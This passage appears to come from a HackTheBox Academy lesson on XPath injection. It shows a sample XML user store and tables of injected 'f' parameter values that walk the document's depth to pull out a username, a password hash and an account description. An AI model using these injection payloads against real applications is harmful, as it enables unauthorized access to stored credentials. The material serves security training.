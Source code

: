```xml
<dataset>
	<streets>
		<street>
			<fullstreetname>01ST ST</fullstreetname>
			<streetname>01ST</streetname>
			<street_type>ST</street_type>
		</street>
	</streets>
	<users>
		<group name="users">
			<user>
				<username>test</username>
				<password>test</password>
			</user>
		</group>
		<group name="admins">
			<user>
				<username>admin</username>
				<password>admin</password>
			</user>
		</group>
	</users>
</dataset>

```

When querying the above XML document, the `street` nodes are at depth `3`: `/dataset/streets/street`. However, the `user` nodes are at depth `4`: `/dataset/users/group/user`. Thus, the depth is different, and we must determine it again to exfiltrate the users. We can determine the depth using the following parameter values. Since we are targeting the second data set in the XML document, we need to use `/*[1]/*[2]` as a starting point:

| Value of the `f` GET parameter | Response |
| --- | --- |
| `fullstreetname | /*[1]/*[2] ` | Nothing |
| `fullstreetname | /*[1]/*[2]/*[1] ` | Nothing |
| `fullstreetname | /*[1]/*[2]/*[1]/*[1] ` | Nothing |
| `fullstreetname | /*[1]/*[2]/*[1]/*[1]/*[1] ` | `htb-stdnt` |
| `fullstreetname | /*[1]/*[2]/*[1]/*[1]/*[1]/*[1] ` | `No Results!` |

We can see that the schema depth is `5`. Furthermore, we seem to have exfiltrated a username. Just like we did with the streets data before, we can exfiltrate all user data by incrementing the last position predicate:

| Value of the `f` GET parameter | Response |
| --- | --- |
| `fullstreetname | /*[1]/*[2]/*[1]/*[1]/*[1] ` | `htb-stdnt` |
| `fullstreetname | /*[1]/*[2]/*[1]/*[1]/*[2] ` | `295362c2618a05ba3899904a6a3f5bc0` |
| `fullstreetname | /*[1]/*[2]/*[1]/*[1]/*[3] ` | `HackTheBox Academy Student Account` |
| `fullstreetname | /*[1]/*[2]/*[1]/*[1]/*[4] ` | `No Results!` |
